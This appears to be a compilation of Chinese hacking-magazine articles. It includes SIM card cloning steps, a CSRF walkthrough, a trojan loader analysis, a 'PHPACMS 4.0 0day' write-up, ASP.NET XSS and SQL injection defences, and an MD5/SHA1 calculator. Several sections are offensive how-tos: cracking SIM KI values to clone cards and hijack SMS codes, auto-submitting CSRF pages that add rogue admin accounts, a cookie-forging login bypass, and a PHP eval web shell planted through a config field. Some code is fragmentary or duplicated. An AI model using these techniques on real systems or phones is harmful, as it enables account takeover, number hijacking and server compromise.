- 2) 将SIM卡片正确插入到SIM读卡器中，连入电脑，并安装读卡器驱动（建议在Windows XP环境实验）。
- 3) 在“设备管理器”的COM口中，找到SIM读卡器的COM口，一般是COM3。
- 4) 运行破解工具（如“SIMMaster 2011”），端口选择“COM3”，速率一般“19200”。
- 5) 如果连接成功，可根据需要选择“防爆模式”，然后点击“开始扫描”。

接下来就是漫长的等待，谁也不知道会破解多久，甚至不知道是否成功，更不知道您的卡片是否会被烧毁，请做好最坏的心理准备——包括重新补卡。在破解过程中请不要强行断开读卡器或者强行结束破解程序的进程，如果要关机或者关闭程序，请先停止破解，然后再正常退出程序。

# 安全第一

打开并且连接此卡时，程序会自动接着上一次进度开始破解。如果成功，结果将是如图4中的，图4中是我成功破解了我的SIM卡中的8组KI值。


图4

从图中我们可以看到，我的卡片一共花费了61025次的尝试才成功，扫描速度是每小时44488次（大约值），没有开启防爆模式。之后进行最后一步：写卡。从SIM的大卡片上取出SIM卡片，然后再次插入读卡器，运行卖家提供的对应的写卡软件，然后连接COM3，将ICCID、KI、IMSI依次填入，之后写入到卡里，只要成功了，就可以正常使用这张卡了。如图5：


图5

## 六、利用克隆卡劫持短信和来电

虽然破解需要数小时，但我们依旧要注意自身卡片的安全，如果被不法分子手持你的卡片几个小时，那么他很可能会成功克隆你的SIM卡。利用克隆过的SIM卡，我们可以成功完成短信和来电的劫持。我们先来谈下两张SIM同时使用，电话和短信应该流入在哪一张卡片的手机里。很多人说是最后开机的那部手机，其实是错的。在通信过程中，我们是和基站建立的单对单的通信，也就是说，谁先和基站建立通信的，最后信息和电话就会流入先建立通信的那一部持卡手机里。

我们来模拟这样一个场景：用户A是持卡人，用户A1是不法分子。在夜黑风高的时候，用户A正睡得熟呢，同寝室的用户A1趁他熟睡的几个小时内偷偷取下他的SIM卡，然后在用户A不知不觉中克隆了他的SIM卡。第二天用户A1见用户A正在等待一条有机密信息的短信，于是，用户A1在用户A收到短信之前，利用这张克隆过的卡片偷偷随意拨打了一个号码，比如10086，此时用户A1和基站建立了单对单的通信，刚好机密信息来了，却被用户A1给劫持了。等得焦急万分的用户A打了个电话过去催对方，于是这时用户A又和基站建立了单对单的通信，对方此时重发短信过来，用户A成功收到了，于是他大声欢呼。

克隆卡的危害以及案例我们知道，只要克隆了SIM卡，如果是自己有了两部手机，为了方便切换而克隆，倒是非常方便，本人正是这样做的。但如果被不法分子克隆以后，危害是很大的，因为这时拿到克隆卡的人完全可以像原本的合法用户那样去使用这张卡，比如手机找回密码、密码保护之类的措施，只要我们最后向基站建立连接，就可以收到一些验证码、重设密码等信息——因为被劫持了。我们甚至还可以消费这张卡里的话费。

这里我简单说下两个案例。第一是，我们见过很多利用克隆技术来行骗的人，声称只要克隆了对方的手机卡，就可以监听对方的短信和电话了。刚才上面已经说了，能做的只是劫持，是不可以监听的。第二个例子，现在很多流入市场的所谓“黑卡”，就是外面随便买的，不是经过移动营业厅正规办理的卡片，以稍微低的价格买的卡中，有一些正是克隆卡。现在有一种读卡器，不需要将SIM卡从大卡片上拆下，就可以读取并破解，然后再将卡片流入市场并出售，这些不法分子不定期用这些克隆过的卡片，如果发现卡片已经被启用了，那么就经常发送一些垃圾广告短信。针对这样的情况，我们只需去营业厅补办一张卡即可，因为新卡的IMSI是不一样的，并且补卡的时候移动会更新你原本的IMSI，这样克隆卡就没法用了。

## 七、防范总结

讲了这么多，相信很多读者以前完全没有意识到SIM卡的安全性。讲这么多，我只是想用实例突出SIM的安全性很重要，因为其重要程度不比其他账号的安全性差。针对SIM卡的安全，个人认为应该非常注意SIM卡不要流入他人之手；另外便是，如果你的卡是很多年前办理的，应该以卡片遗失的借口去移动营业厅花一二十块钱重新补办一张新的卡片，并且养成一两年补办一次的习惯，这样才能保证卡片所用的技术是最新的；并且万一不小心被人偷偷克隆过，这种方法也可以直接让他的克隆卡失效。本文若有错误，请大家指出，我的电邮是 lx@shellcodes.org。

# 为加密文件巧配“绝密钥匙”

郭建伟

对于加密，恐怕大家都不陌生。不管采用哪一种加密方式，最关键的因素莫过于密码了。为了提高安全性，我们会尽量使用复杂的密码。但是这也会给密码的记忆带来麻烦，一旦忘记了密码，您的秘密就再也无法重见天日了。这的确是让人颇为头痛的问题。其实，我们不妨另辟蹊径，采用无密码的加密方式，不就可以摆脱上述困局了吗？这听起来有些不可思议，借助于SecureCrypt UE这款独特的加密软件，就可以将上述想法变成现实。下载地址：http://www.zencore-softworks.com/download/sc3_setup_2.exe。


图1

SecureCrypt UE的特点是允许将任意类型的文件作为加密的密钥，不管是加密还是解密，都依靠该密钥进行。这样您只需保管好对应的密钥文件，就可以万事大吉了。这种加密技术的最大特点是让您摆脱了对密码的依赖。在SecureCrypt UE主窗口（如图1）中点击“Encrypt or Decrypt”按钮，在加密方式面板中点击“File Key”按钮，选择需要加密的文件。之后按照提示选择对应的密钥文件，密钥文件可以是任意类型的文件（例如图片、音频、文档、视频等）。然后SecureCrypt UE就以该密钥文件为依据，对目标文件进行高强度加密处理。


图2

有趣的是，加密后的文件其名称和类型没有任何改变，从表面上看起来没有发生任何变化。但实际上，文件的内容已经被彻底加密了。当别人试图打开加密后的文件时，要么看到一大堆无法理解的数据，要么根本就无法打开。当需要对加密文件进行解密时，在SecureCrypt UE中点击“Encrypt or Decrypt”按钮，在弹出面板中点击“File Key”按钮，按照提示依次选择加密文件和密钥文件，就可以执行解密操作，恢复加密文件的原始面貌了。可以看到，加密和解密的操作步骤基本相同（如图2）。当然，SecureCrypt UE也提供了常规密码加密方式，只需在SecureCrypt UE主窗口中点击“Encrypt or Decrypt”按钮，在弹出面板中点击“Password key”按钮，选择目标文件并输入密码，即可完成常规的加密操作。解密的方式也与之完全相同，即选择加密文件，输入密码，就可以得到原始文件了。

## CSRF小记

菲哥哥 or 菲

CSRF（Cross-site Request Forgery，跨站请求伪造，也被称成为“one click attack”或者session riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用）。

攻击通过在授权用户访问的页面中包含链接或者脚本的方式工作。

例如：一个网站用户Bob可能正在浏览聊天论坛，而同时另一个用户Alice也在此论坛中，并且后者刚刚发布了一个具有Bob银行链接的图片消息。设想一下，Alice编写了一个在Bob的银行站点上进行取款的form提交链接，并将此链接作为图片tag。如果Bob的银行在cookie中保存他的授权信息，并且此cookie没有过期，那么当Bob的浏览器尝试装载图片时将提交这个取款form和他的cookie，这样在没经Bob同意的情况下便授权了这次事务。

下面以一个实例来演示一下可能会更直观，大致过程就是：利用管理员身份提交一次添加账户请求。怎么进入后台，我用常规的技术就行，不是重点不多啰嗦了。添加一个账户为“feihacker”、密码为“123456”的管理员账户。然后抓包，如图1。

```html
<input type="hidden" name="username" value="hacker">
<input type="hidden" name="password" value="fei">
</form>
</body>
</html>
```

这段代码很简单，在加载的时候执行一次请求，添加一个账号为“hacker”，密码为“fei”的管理员。

```html
<input type="hidden" name="username" value="hacker">
<input type="hidden" name="password" value="fei">
```


图1

现在要做的就是在前台找个支持HTML留言的地方，贴上咱们自己构造的添加用户请求的URL，让管理员在后台查看的时候神不知鬼不觉添加一个管理员账户。

以下是我根据抓包编写的一段自动提交请求的HTML代码：

```html
<html>
<head></head>
<title></title>
<body onload="javascript:document.form.submit()">
<form action="http://xxx.nxx.cn/admin/admin_add_save.asp?action=add" method="POST" name="form">
  ...
</form>
</body>
</html>
```


图2

上面input的标签name要和抓包的参数一样，不然是不会成功的。我把这段代码保存成X.HTML上传到远程服务器，在留言板写成`<A>`标签的形式。在管理员查看的时候点击就会添加账户。`<a href="http://www.baidu.com/x.html">管理员你小时候照片啊呵呵。。。</a>`

然后在前台留言的地方贴上这段代码然后确定，如图2。现在我们再去后台查看这条留言，看是否能添加账户，图3为我发表的留言。


图3


图4

在管理员点击`<a>`标签的时候就会添加账户，点击下试试，添加成功如图4。

CSRF其实很容易理解，就是欺骗高权限用户执行我们事先准备好的代码来达到目的。

# 对一个木马病毒行为的分析（上）

事情的起因是：我上QQ的时候有人给我发了一个文件。我一看体积十分小，我问他是什么，他说是个外挂。当时我心里就知道是病毒了，但是我没有拒收。根据我的经验，一般用QQ发的，大多都是QQ盗号木马，都带有大量的信息，例如发件箱地址、收件地址等等，要是能得到邮箱的密码那就太好了！（邪恶ing中！）

分析病毒是十分危险的工作，所以一定要在虚拟的环境下进行，以保证你的安全和病毒分析结果的准确性。但是有些病毒会检测运行的使用环境，如果发现在虚拟环境下运行则删除自身，更有甚者用SMC补丁技术把自己“整容”成一个只会“Hello world!”的良民！当我们没有能力清除这些陷阱时，就只能在本地构建分析环境。

分析病毒首先要收集一下信息。该文件的各项校验和分别为：

- MD5: f6dbf8c946e807d13408ebfbdf08e78b
- SHA1: f7dce8b1255340a264f7dab2130d79b6a50e1576
- CRC32: d8abafa8

（可以用“Hash 1.4”这个文件校验工具来计算。）这些信息在分析的过程当中是非常重要的！因为现在的病毒几乎没有一个文件是“单打独斗”，所以校验文件的各项校验值十分必要。

然后再用PEiD 0.95查壳，虽然PEiD查壳经常不准确，但是可以知道是否加壳了、是否有文件自校验。然后用LoadPE载入看一下输入表，有两个重要的信息：

- 1. 可以肯定绝不会是盗号木马！因为盗号木马的ws_32.dll不需要封装这么多函数，所以我猜测可能是远控类的木马！
- 2. PEiD查壳时有附加数据，而在IAT中有MFC42.DLL，所以我可以推断该程序可能为Visual C++ 6.0 MFC编写。

基本信息就收集完了，把样本载入IDA Pro中等待IDA把样本分析完毕。我们来看一下它的结构，相当简单（见图1、2）。


图1


图2

一共有个模块，其入口点为“Win GUI”，根据分析其入口点的C++代码大概为：

```c
int WINAPI _tWinMain(
    HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine,
    int nCmdShow
)
```

```c
// 窗口类、注册窗口及其判定和窗口消息循环等类省略
bool CreateWnd(HINSTANCE hInstance)
{
    HWND hWnd;    /* 定义窗口句柄 */

    hWnd = CreateWindow(NULL, NULL, CW_USEDEFAULT,
    CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, NULL, NULL, hInstance, NULL);
    ShowWindow(hWnd, SW_HIDE);
    UpdateWindow(hWnd); // 刷新窗口

    return 0;
}
```

从代码中可以看出该程序注册了一个长宽和水平位置均为0的一个“看不见”的窗口。如果注册成功后就执行下一个函数，否则就接着注册窗口。我们若是要了解它具体的行为，那么就需要用调试器来跟踪一下。我最喜欢用OllyDbg了，如果你会用WinDbg、SoftICE这些内核动态调试器跟踪的话，OllyDbg当然不是最好的选择！你也许会问为什么一开始不用OD，而要用IDA来分析？因为病毒在分析之前我们对其内部情况一无所知，所以用IDA分析可以让我们对其函数的使用情况和各个函数执行流程有更好的了解，不会把我们弄得一头雾水。（图3）


首先打开OD把样本载入，然后把IceSword打开，点击“监视线程创建”功能。因为我在前面就说过在本地分析病毒是极度危险的，所以使用像“IceSword”这样的ARK工具是很有必要的！可以观察病毒当前创建的线程、进程等情况。整体大概有1200多行的代码，将其算法完全逆向出来几乎没有任何难度，但考虑到X们的水平就只分析它的行为。

跟踪之前要下一个非常重要的断点；在“插件”栏中选中“断点设置工具”下几个必要的断点（图4），这样可防止程序运行起来。我们跟踪的过程中仔细观察文件的释放和加载，当驱动加载到内存中那可不是闹着玩的！你可能会面临重新安装系统都无法清除的RootKit！所以要注意被调试程序的释放情况。


跟踪前准备完毕，开始跟踪吧！从入口看得出是一个典型的Visual C++ 6.0编译出来的程序，入口代码如下：

```asm
push ebp
mov ebp, esp
push -1
push 004140D2
push 0041E3A
mov eax, dword ptr fs:[0]
push eax
```

表面上看没有任何的伪装迹象，但是我们不能掉以轻心，因为国外的一些伪装壳伪装性能非常好，不跟踪到最后就不能说没有加壳。我们先用“F9”让程序运行起来，但运行前要注意：要小心程序中有SEH的暗桩，若是有暗桩的话先要清除，否则后果极其严重哦！

程序这时断在了“系统领空中”（kernel32.dll），继续单步跟踪，在堆栈窗口中的快照出现了一个绝对路径（图5），其路径为：“c:\Document and Setting\All Users”。不要小看它，说不定这个就是程序的释放路径。然后用“Alt+F9”返回到“程序领空”，这时返回到GetModuleHandle函数上。代码：```c
push 0
call GetModuleHandle
```

当前它仍然没有获得模块句柄，所以不会加载任何模块。但是它也没闲暇来晒日光浴，接着它就有一个大的动作——写文件，其流程是这样的：“CreateFileA -> CopyFileA -> WriteFileA”。现在我来说明一下其原理：首先用 CreateFileA 有两个功能，第一：确定该目录是否存在；第二：校验自身文件是否被改动过；当然也可以用于文件感染！


CopyFileA 主要用于创建一个文件框架和已释放文件的复制，大家有兴趣的话可以深入跟踪病毒加载的“CopyFileA”。在没有使用 WriteFileA 之前还不是 PE 文件呢？WriteFileA 的主要作用就是写数据，这个就是这个结构核心，这个还可以用于自动变异！我还是来看一下“CopyFileA”做了什么吧！

它 copy 了一个名为“IEXPLORER.EXE”的文件到“c:\windows\system32\”，其状态判定为“FALSE”，说明目录存在、文件不存在，所以可以预见到它马上就要写框架了！（如图6）


然后就进行一系列的写入操作，这样就像编译文件那样写出了一个文件。不要以为这样它就会善罢甘休了，它马上又放出了一个 BAT（代码很简单就不写了），主要用于自删和“IEXPLORER.EXE”程序的执行。这个程序可是一刻都不闲着，它又开始鼓捣注册表了，第一件事就是弄注册表的启动项；然后将 IEXPLORER.EXE 注册为服务。虽然方法很古老，但是现在很多所谓的“黑客”都在用这个古老的方法。我们可以得知它仅仅是一个 loader 程序，真正的攻击任务可能是 IEXPLORER.EXE。它的主要功能是为主程序注册“服务”和启动项，打开服务和主程序。总流程为：

- 注册窗口
- 写文件
- 写 BAT 批处理文件
- 写注册表键值
- 打开 IEXPLORER.EXE
- 使用 BAT 文件自删除

这次主要分析了该程序的 LOADER 程序，下次我将从算法上来完全剖析这个万恶的病毒，请广大的 X 们期待哦！

# PHPACMS 4.0 0day

菲哥哥 or 菲

最近学习 PHP，就研究了一下 PHPACMS 4.0 这套系统，发现可以拿 shell，下面是发掘过程。

# CSRF

前台可以发表带有 html 代码的留言，在后台查看的时候就造成了 CSRF，可以利用这个 CSRF 添加后台管理员账户。Message.php 为留言板文件。

下面是构造的 EXP：phpcsrf.html。

```html
<html>
<head>Exp PHPacMS CSRF 菲哥哥 or 菲</head>
<body onload='javascript:document.form.submit()'>
<form action='http://localhost/cms/phpaCMS/admin/user_action.php' method='post' name='form'>
<input type='hidden' name='act' value='add'>
<input type='hidden' name='username' value='xoxoxo'>
```

```html
<input type='hidden' name='password' value='xxxx'>
<input type='hidden' name='password2' value='xxxx'>
<input type='hidden' name='userid' value='0'>
</body>
</html>
```

把这个文件传到远程服务器，然后在留言板发布留言为：（如图1）

> [添加账号测试](http://www.baidu.com/fckeditor/phpcsrf.html)


在管理点击“……”的时候就可以添加一个管理员账号。大家在实际运用中 `<a>` 标签中的字符可以写得比较有诱惑性，点击以后添加成功如图2。


这样就可以进后台利用配置文件写一个一句话了，后面我会介绍怎么写一句话。


# Cookie 欺骗

由于登录验证出现逻辑错误导致可以 Cookie 欺骗，关键代码如下：

```php
if (!isset($_COOKIE['uscrid']) || empty($_COOKIE['userid'])) {
    setcookie(lastURL(get_url())); // 上次访问地址
    header("Location: login.php");
}
```

上面代码很容易理解吧，我就不揭示了。只要我们在 IE 执行 `javascript:alert(document.cookie="userid=5")` 为 uscrid 赋值，然后再去访问后台就 ok 了，这样就能绕过后台验证了。我就不截图了，这个很简单。

# 配置文件写一句话

这个利用的时候有点限制，`magic_quotes_gpc = OFF` 必须为 OFF。在写入一句话 `<?php @eval($_POST['hack']);?>` 的时候，这样常规的一句话是不行的，因为要闭合前面的“”。

下面是我变形后的一句话：“/)?><php @eval($_POST[hack]) /* ”，会把一句话写到 `data/website.inc.php`。在写一句话的时候要注意一定要写到管理员邮箱那一栏，不然不能闭合前面的代码，写一句话也就不会成功，如图4。


我用菜刀连接成功如图5。


# ASP.NET 防 XSS 注入、注入防护

最近去绿盟面试的时候突然被问到关于跨站的问题，当时脑子有点懵，所以回答得不是很好。回来想想就稍微整理了一下最简单的思路，写了一个比较简单的 ASP.NET 程序进行了一下防跨站的验证。回头一想，干脆也试试防注入的方法，也一起复习一下，为以后多打打基础。以下的程序都是在 Visual Studio 2008 上编写的，使用的是 .NET Framework 2.0。

编写的 ASP.NET 应用程序主要有以下几个页面：

- 普通页面（WebPage1）
- 有简单防 XSS 攻击的页面（WebPage2）
- 防注入页面（WebForm1）

## 一、跨站的简单防护

先谈谈跨站的简单防护。


普通页面添加一个 TextBox、一个 Button、一个 Label，页面展示如图1。

为按钮添加点击事件，代码如下：

```csharp
protected void Button1_Click(object sender, EventArgs e)
{
    if (TextBox1.Text != "")
    {
        Label1.Text = TextBox1.Text;
    }
}
```

按照这样的控件布局，可以认为是一个简单的留言显示 web 程序。预期是在文本框中输入内容后，正常显示在 Label 中。

在 TextBox1 输入测试语句如下：

```html
<script>alert("123");</script>
```

运行后返回服务器错误：检测到有潜在危险的 Request.Form 值（与客户端输入脚本有关）。说明这是请求验证（ValidateRequest）触发，提示可能存在 XSS 风险。

首先修改 Page 指令，添加 `ValidateRequest="false"` 使其不进行验证，修改后的指令如下：

```aspx
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="WebPage1.aspx.cs" ... ValidateRequest="false" %>
```

```aspx
<%@ Page ... ValidateRequest="false" %>
```

此时继续测试，重复输入 `<script>alert("123");</script>`，结果如图2所示，XSS 已成功。


为了对比结果，重新创建一个 ASPX 页面（WebPage2）做简单防范演示。


在另一个具备简单防范功能的页面中，添加与之前相同的控件（并相应修改 Page 命令）。

在按钮事件代码中加入对输入文本的处理方法 `Server.HtmlEncode`，该方法会对输入字符串做 HTML 编码并返回编码结果。语法如下：

```csharp
public string HtmlEncode(string s)
```

按照该方法修改后的点击事件代码如下：

```csharp
protected void Button1_Click(object sender, EventArgs e)
{
    if (TextBox1.Text != "")
    {
        Label1.Text = Server.HtmlEncode(TextBox1.Text);
    }
}
```

在这种处理下再次测试刚才的 `<script>alert("123");</script>` 输入，结果如图3所示，此时文本已经在 Label 中正常显示出来了，并没有跳出对话框。

接下来我们继续比较一下，看看两个页面源码的 Label 处到底有什么不同。查看 html 源码的方法就不多提了。

普通页面（WebPage1）的 Label 处 html 源码如下：

```html
<span id="Label1"><script>alert("123")</script></span>
```

简单防 XSS 攻击的页面（WebPage2）的 Label 处 html 源码如下：

```html
<span id="Label1">&lt;script&gt;alert(&quot;123&quot;)&lt;/script&gt;</span>
```

XSS 攻击最主要还是由于浏览器本身执行了服务器返回的某些特定代码。WebPage1 的结果是没有经过 html 编码，浏览器默认将其作为 JavaScript 代码执行；而 WebPage2 进行了编码，编码后的文本不会作为 JavaScript 语句处理，只会当作一般文本显示出来，跨站并没有成功。还需注意，若采用此编码方式处理文本，则无法直接用 `` 等常用标签显示图片，除非进行额外的程序处理（如提取 src 和宽高后重组）。推荐使用如 DZ 等 PHP 站点 `[img]` 一类自定义标签。如果要对经过 html 编码的文本解码，可使用 `Server.HtmlDecode` 方法。

关于 HtmlEncode 的进一步解析，可以参考 MSDN：

http://msdn.microsoft.com/zh-cn/library/w3te6wfz.aspx

下面继续提供一些跨站语句，大家自行测试：

```html
</img>
```

以下仅 IE6 或之前的版本受影响：

```html
</img>
<table style="left:expression(alert('xss'))"></table>
<div style="left:expression(alert('xss'))"></div>
```

一般来说，在 ASP.NET 中使用 HtmlEncode 方法就可以防止大部分普通的跨站攻击。所以在编写应用程序的时候还是要养成良好的习惯，该注意的细节问题必须要搞好；免得到时候一个站点哪里都非常稳固，但是就输在了这一个最简单的方向上。

## 二、注入的简单防护

下面继续防注入的编写。注入肯定会涉及到数据库，在这我使用的是 SQL Server 2005 Express。

第一步先启动 SQL Server 的服务。打开 SQL Server 配置管理器，右边第一项服务必须要启动（版本不同名字有所不同），如图4所示。


图4

接着第二步，打开 SQL Server Management Studio Express。由于是 Express 版，所以需单独下载。打开之后连接数据库服务器，如图5所示。连接完成后如图6所示，可以看见很多东西。


图5


图6

然后第三步，我们点击工具栏上的第一项“新建查询”，然后会出现一个 SQLQuery1.sql 的选项卡。接着第四步我们先新建一个数据库和数据表，输入以下语句：`create database test;`

选中该句整句（包括分号，这样比较规范），然后点击“执行”，如图7所示。下面会提示命令执行成功。展开左边目录树的“数据库”一项会看见多了一个名为 test 的数据库。


图7

同样地输入：

```sql
use test;
create table sqlInjection(name varchar(20));
```

选中两句，则会在 test 数据库中新创建一个 sqlInjection 表。

再插入点数据，执行如下语句：

```sql
use test;
insert into sqlInjection values('name1');
insert into sqlInjection values('name1''');
```

插入了两个字符串数据。我们待会用到的时候再说。其中特别说明一下，在 SQL 中，两个引号表示的就是单引号，要特别注意。

准备工作也基本完成了，再搞好页面：一个文本框、一个按钮和一个单选按钮列表（RadioButtonList），如图8所示。


图8

好，先说按钮的点击事件，加入如下代码：

```csharp
Response.Redirect("WebForm1.aspx?name=" + TextBox1.Text);
```

其实也就是方便测试而已，更直观。也可以直接在浏览器中输入。

在页面的 Page_Load 事件中先加入简单的获取和判断：

```csharp
string name = Request.Params.Get("name");
if (name == null || name == "")
    Response.Write("name为空");
```

name 就是我们传入的参数了，不多说了。数据库连接相关代码如下：

```csharp
SqlConnection sql = new SqlConnection(@"Data Source=.\SQLEXPRESS;Initial Catalog=test;Integrated Security=True");
SqlCommand cmd = new SqlCommand();
cmd.Connection = sql;
sql.Open();
```

还有一个判断，如果选择了第一个单选按钮则为没有防注入的处理。相关代码如下：

```csharp
if (RadioButtonList1.SelectedItem.Value=="1")
{
    // 最简单的查询方法，无任何注入防护
    cmd.CommandText = "select * from sqlInjection where name='" + name + "'";
    SqlDataReader reader = cmd.ExecuteReader();
    if (reader.Read())
        Response.Write("结果：" + reader.GetString(0));
}
```

很简单，测试时使用的完整链接是：`http://localhost:1409/WebForm1.aspx?name=name1'and user>0--`

测试结果如图9所示，已经暴出了……


图9

下面继续说防注入的最简单方法。防注入使用到的一个特殊类是 SqlParameter。实质上它就是用来代表一个参数。具体用法看代码就明白了：

```csharp
cmd.CommandText = "select * from sqlInjection where name=@name";
SqlParameter parm = new SqlParameter();
```

```csharp
parm.ParameterName = "@name";         // 参数名，需要有@
parm.SqlDbType = SqlDbType.VarChar;  // 参数类型，这里是变长字符串
parm.Value = name;                    // 参数值，赋值为上面获取到的 name 参数
cmd.Parameters.Add(parm);             // 添加到集合中
SqlDataReader reader = cmd.ExecuteReader();
if (reader.Read())
    Response.Write("结果：" + reader.GetString(0));
else
{
    Response.Write("没有查询到" + name);
}
```


图10

如果输入 `"name1' and user>0--"` 的话，结果提示未查询到，如图11所示。


图11

其中 SqlParameter 还有其它的一些方法和属性，详细请参考：

http://msdn.microsoft.com/zh-cn/library/system.data.sqlclient.sqlparameter_members(v=VS.80).aspx

下面开始测试一下。在文本框中输入“name1'”，在 name1 后面带上一个单引号，点击按钮后发现正常输出了，如图10所示。

从上面两个测试结果很明显可以看出，无论我们输入的 name 参数是什么东西，它都直接代入到查询语句中进行查询，即查询的就是我们输入的内容。前面之所以还插入另外一个 `name1'` 就是为了验证这个。

虽然这个方法可以一定程度防止 SQL 注入的产生，但是代码编写也比较繁琐。即使还有其它方式可以使用这个参数化查询，始终代码都还是有点繁琐，不过还是推荐大家使用。其中 Java 也有类似的一个类，大家可以自行查询。

最后总结一下，其实本文并没有什么很高深的东西，除了在讨论一点基础的编程之外，更多还讨论了下原理，并不适合老手们看，大神们还是绕道吧……个人水平也比较有限，还是希望能和大家在论坛上多多交流，大家一起提高！

# MD5 和 SHA1 散列计算器的制作

随着 MD5 弱点的发现，使用 SHA1 散列算法的网站和程序也越来越多了，以前常用的 WinMD5、WinMD5Sum 之类的工具就显得不适用了。不过没有关系，我们可以自己做一个。这个程序可以同时支持对字符串以及文件进行 MD5 和 SHA1 散列计算，另外还需要支持比较值功能。

首先介绍一下我使用的编程工具——Lazarus。也许对于 Lazarus 这个名字很多人比较陌生，但看到程序界面如图1，是否就有熟悉的感觉呢？对了，Lazarus 使用 Free Pascal 作为编程语言，是仿 Delphi 类型的快速程序开发工具。Lazarus 是多平台的 64 位开源开发工具。其宣传口号是：一次编写，到处编译。和 Java 与 C# 不同，Lazarus 编译出来的是本地代码，速度上会有一定优势。

目前 Lazarus 支持 Windows、Linux、WinCE 和 Mac OS 等操作系统，上月还初步支持了 Android 系统。

提示：Free Pascal 语法和 Delphi 基本相同，而且 Lazarus 和 Delphi 很相似。

和大部分开源软件一样，Lazarus 同样有稳定版和开发版，我选用的是最新的 Lazarus 0.9.30.1 稳定版本。如果求新，可以去官方网站下载快照版（Daily Snapshots），差不多每周会更新一两次。

MD5 和 SHA1 的算法是公开的，在网上有很多资料，这里就不再详细介绍了。在 Lazarus 中并没有内置 MD5 和 SHA1 算法控件，所以我们必须自己实现或者寻找一个现成的控件。

图1

刚开始的时候我想自己写实现 MD5 和 SHA1 算法，但对照网上的算法资料，忙碌了两天时间，还是没有成功。散列算法原理简单，但编程真正实现起来就很麻烦了。而且我也对自己的编程水平不太自信，万一程序中有什么隐藏比较深的 Bug 就麻烦了。

上网搜索了一下，在 sourceforge.net（http://sourceforge.net/projects/lazarus-ccr/）找到了 dcpcrypt 控件包，其中不仅有我需要的 MD5 和 SHA1 散列算法控件，还有其它多种散列和加密算法的控件，如图2和图3。

图2

图3

下载 dcpcrypt 控件包后将其解压到 Lazarus 安装目录中的 components 目录下，在我的机器中就是目录 `D:\lazarus\components\dcpcrypt` 中。然后启动 Lazarus，选择 `Package -> Open package file (.lpk)` 菜单如图4，这时会弹出文件打开对话框，选择 dcpcrypt 目录中的 `dcpcrypt_laz.lpk` 文件，然后如图5点击 `Use -> Install` 菜单即可。这时 Lazarus 会询问是否重新编译 Lazarus，需要选择 Yes，因为目前 Lazarus 还不能支持动态连接控件，新控件安装必须编译整个 Lazarus 程序。

图4

小技巧：把控件放到 components 目录下就可以避免去调整 Lazarus 的一些路径参数，会减少很多麻烦。

稍等片刻，Lazarus 编译完成后就会重新运行，这时你就能在控件中找到 DCPHashes 页了，其中 TDCP_md5 和 TDCP_sha1 就是我们需要的。

图5

现在我们开始制作程序的主界面，如图6所示，是我制作的界面版本。除了上述两种用于散列计算的控件外，还用了 TEdit 控件用于字符串和散列值的输入和显示；TLabel 控件用于一些说明性的文字；TFileNameEdit 控件用于选择文件；TButton 控件用于按钮；TMainMenu 控件用于菜单。

图6

提示：这个界面我经过多次调整也不算太满意，大家如果觉得不好，可以修改。

TDCP_md5 和 TDCP_sha1 控件的使用非常简单，而且使用方法也完全一样。这里就以 TDCP_sha1 为例讲解。计算 MD5 代码部分基本是一样的，除了将控件名字修改为 TDCP_md5。

计算字符串的 SHA1 的核心代码只需三行，如下：

```pascal
// 控件初始化。
DCP_sha1.Init;

// 输入需要计算的字符串。本程序从 TEdit 控件 StrEdit 中得到用户输入的字符串。
DCP_sha1.UpdateStr(StrEdit.Text);

// 获取结果，DigestSHA1 变量中会保存结果。
DCP_sha1.Final(DigestSHA1);
```

需要注意的是 SHA1 散列值有 160bit，因此保存结果的 `DigestSHA1` 变量定义为 `Array[0..19] of byte`，不可以多也不能少。

提示：MD5 值是 128bit，所以要定义为 `Array[0..15] of byte`。

计算文件的 SHA1 只需要改上述三行代码中的中间一行，将 `DCP_sha1.UpdateStr(StrEdit.Text);` 改为 `DCP_sha1.UpdateStream(SrcFile, SrcFile.Size);`，其中 `SrcFile` 变量是一个 `TFileStream` 类对象，用于读取需要计算 SHA1 值的文件。

说到这里，还需要对 `TFileStream` 类做一个简单说明。`TFileStream` 类通常用于处理二进制文件，函数 `TFileStream.Create(const AFileName: string; Mode: Word);` 是该类的一个构造函数，其中 `AFileName` 参数是文件名，`Mode` 参数是打开文件的方式，可以是只读 `fmOpenRead`、可写 `fmOpenReadWrite` 以及 `fmCreate` 建立文件。

但 `TFileStream` 类使用的是 ANSI 编码，不能支持 Unicode 编码的中文文件名，而我们获取的文件名恰好又是 Unicode 编码的，所以就必须在调用 `TFileStream.Create` 函数的时候，对其中的输入参数 `AFileName` 使用 `UTF8ToSys` 函数进行转码。具体代码如：`TFileStream.Create(UTF8ToSys(SelectFile.Text), fmOpenRead);`

技巧：当前整个 Free Pascal 的 Run-Time Library 都使用 ANSI 编码，因此写程序的时候需要特别注意。出现英文正常、中文错误的情况，试试加上转码。

完整的计算 SHA1 代码如下，其中还有一些需要注意的地方，我都注释了出来，请认真看完所有注释：

```pascal
procedure TMainForm.SHA1BtnClick(Sender: TObject);
var
  DigestSHA1: Array[0..19] of byte;
  SrcFile: TFileStream;
  i: Integer;
  s: String;
begin
  // 字符串和文件均为空时，提示使用方法，然后退出函数。
  if (StrEdit.Text = '') and (SelectFile.Text = '') then
  begin
    MessageDlg('使用提示', '请输入一个字符或者选择一个文件！', mtInformation, [mbYes], 0);
    Exit;
  end;

  // 判断：如果没有输入字符串，则计算文件的 SHA1
  if StrEdit.Text <> '' then
  begin
    // 计算 SHA1 的核心代码
    DCP_sha1.Init;
    DCP_sha1.UpdateStr(StrEdit.Text);
    DCP_sha1.Final(DigestSHA1);

    // 将结果转换为16进制值，以方便阅读
    s := '';
    for i := 0 to 19 do
      s := s + IntToHex(DigestSHA1[i], 2);

    // 显示结果
    SHA1Edit.Text := s;
  end
  else
  begin
    try
      // 创建文件对象
      // UTF8ToSys 函数用于字符编码转换，以支持中文文件名
      SrcFile := TFileStream.Create(UTF8ToSys(SelectFile.Text), fmOpenRead);
    except
      MessageDlg('错误提示', '杯具！打开文件出错！', mtError, [mbOK], 0);
      Exit;
    end;

    if SrcFile = nil then
    begin
      MessageDlg('错误提示', '杯具！打开文件出错！', mtError, [mbOK], 0);
      Exit;
    end;

    // 计算 SHA1 的核心代码
    DCP_sha1.Init;
    DCP_sha1.UpdateStream(SrcFile, SrcFile.Size);
    DCP_sha1.Final(DigestSHA1);

    SrcFile.Free; // 释放文件对象

